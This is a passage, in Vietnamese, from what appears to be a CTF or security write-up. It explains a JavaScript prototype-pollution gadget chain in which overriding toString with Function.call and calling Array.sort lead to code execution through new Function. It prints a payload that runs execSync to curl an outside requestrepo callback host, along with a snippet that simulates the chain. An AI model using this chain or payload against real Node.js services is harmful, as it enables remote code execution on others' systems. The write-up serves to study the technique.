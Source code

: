 - Khi `a.sort`(function sort) được gọi đến thì bình thường  thì nó sẽ cố gắng chuyển tất cả các phần tử trong mảng thành string bằng hàm `toString()` rồi so sánh bằng `function` truyền vào. Điều này vô tình trigger hàm `call()` chúng ta đã đổi ở lúc đầu và bây giờ cả `array` sẽ trở thành `parameter` của `new Function`

- Nói thêm ở phần này về lý do phải set `b[__proto__]=a` là vì `sort` là `function` của `array` nên chúng ta phải đổi `prototype` của nó thành `array` thì sort mới có thể được thực thi và hơn hết khi đó `sort` sẽ được thực thi trên `b`, `b` lúc này là một `object` nên `sort` sẽ cố gắng tìm kiếm `array` trong `object` này bằng cách tìm kiếm trong `prototype` của nó khi đó nó sẽ tìm được 1 `array` trong vì ta set `prototype` của `b` là `a`

- Giá trị return của `new Function` này sẽ là một anonymous với `a[0]` là function và `a[1]` là parameter

```js
(function anonymous(x
) {
process.mainModule.require('child_process').execSync('curl http://yh9wz5br.requestrepo.com')
})
```

- Để nói thêm một chút nữa thì flow của chương trình sẽ như sau trigger `sort` -> `sort` nhận `Function` làm tham số -> `Function` là hàm được sử dụng để 'so sánh' các phần tử bên trong mảng -> Mỗi phần từ được chuyển qua string(trigger `call` function) -> Trả về một anonymouse function -> Cuối cùng giá trị sau khi 'so sánh' sẽ được trả về dưới dạng string (trigger `call` function)

Đây là code mô phỏng lại quá trình sort

```js
toString.constructor.prototype.toString=Function.call;

Function(a[1].toString(),a[0].toString()).toString();
```



